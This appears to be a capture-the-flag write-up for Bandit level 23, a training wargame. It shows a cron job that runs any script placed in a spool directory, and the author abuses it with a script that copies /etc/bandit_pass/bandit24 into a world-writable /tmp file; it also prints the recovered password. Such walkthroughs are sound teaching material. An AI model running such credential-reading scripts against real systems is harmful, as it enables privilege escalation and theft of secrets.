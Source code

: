 # Bandit Level 23  
  
Again this is another cronjob challenge so we will navigate to the /etc/cron.d directory and look at the cronjob_bandit24 file  
  
We can again inspect the .sh file to give the shellcode:  
```sh  
#!/bin/bash  
  
myname=$(whoami)  
  
cd /var/spool/$myname  
echo "Executing and deleting all scripts in /var/spool/$myname:"  
for i in * .*;  
do  
    if [ "$i" != "." -a "$i" != ".." ];  
    then  
        echo "Handling $i"  
        timeout -s 9 60 ./$i  
        rm -f ./$i  
    fi  
done  
```  
  
here we see that it is running all code in /var/spool/$bandit24 every minite or so  
  
first of all we need to write our own shellscript  
It goes as follows:  
```sh  
#!/bin/bash  
  
cat /etc/bandit_pass/bandit24 > /tmp/thisdirisours/passwd   
```  
  
after writing this in our tmp directory with the extension .sh we need to set permissions for the file  
We want everone to do everything so we can use the command  
> chmod 777 ourshellcode.sh  
  
Now we create the file we said to pipe redirect the output of the command to in our shellcode using "touch passwd" which will create our password file  
  
We also need to set the correct permissions on this one also as we need all users to be able to write to it so we use the command:  
> chmod 666 passwd  
  
allowing all users to read and write to it  
  
Now we just copy our shellscript into /var/spool/bandit24 and wait  
  
After a certain amount of time you should see our password file now has data in and when opened with the cat command we see the password is: UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ  
  
